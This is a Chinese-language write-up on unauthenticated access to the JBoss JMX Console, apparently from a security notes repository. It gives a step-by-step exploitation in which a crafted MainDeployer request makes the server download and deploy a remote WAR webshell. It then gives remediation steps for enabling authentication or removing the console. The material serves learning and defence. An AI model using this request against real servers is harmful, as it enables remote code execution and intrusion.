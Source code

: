 ## JMX Console未授权访问

JMX Console默认存在未授权访问，直接点击JBoss主页中的JMX Console链接进入JMX Console页面。

1. 在JMX Console页面点击jboss.system链接，在Jboss.system页面中点击service=MainDeployer，如下
![Jbossjmxconsole01](./pic/Jbossjmxconsole01.png)

2. 进入service=MainDeployer页面之后，找到methodIndex为17 or 19的deploy 填写远程war包地址进行远程部署。
![Jbossjmxconsole02](./pic/Jbossjmxconsole02.png)

3. 这里我部署的war包为lxh.war，链接如下：
`http://192.168.31.205:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://192.168.31.205/lxh.war`

4. 访问
http://xx.xx.xx.xx/[warname]/shellname.jsp
![Jbossjmxconsole03](./pic/Jbossjmxconsole03.png)

### 修复建议
1. 增加密码措施，防止未授权访问。
1）在`C:\jboss-6.1.0.Final\common\deploy\jmx-console.war\WEB-INF\jboss-web.xml`开启安全配置。
![Jbossjmxconsole05](./pic/Jbossjmxconsole05.png)
2）在`C:\jboss-6.1.0.Final\common\deploy\jmx-console.war\WEB-INF\web.xml`开启安全认证。
![Jbossjmxconsole04](./pic/Jbossjmxconsole04.png)
3）在`C:\jboss-6.1.0.Final\server\default\conf\login-config.xml`中可以看到JMX Console的用户密码配置位置。
```
  <application-policy name="jmx-console">
    <authentication>
      <login-module code="org.jboss.security.auth.spi.UsersRolesLoginModule"
        flag="required">
        <module-option name="usersProperties">props/jmx-console-users.properties</module-option>
        <module-option name="rolesProperties">props/jmx-console-roles.properties</module-option>
      </login-module>
    </authentication>
```
4）配置用户密码以及用户权限，这里新增lxhsec用户。
![Jbossjmxconsole06](./pic/Jbossjmxconsole06.png)
5）重启JBoss，效果如下：
![Jbossjmxconsole07](./pic/Jbossjmxconsole07.png)

2.或删除JMX Console,后重启JBoss
`C:\jboss-6.1.0.Final\common\deploy\jmx-console.war`
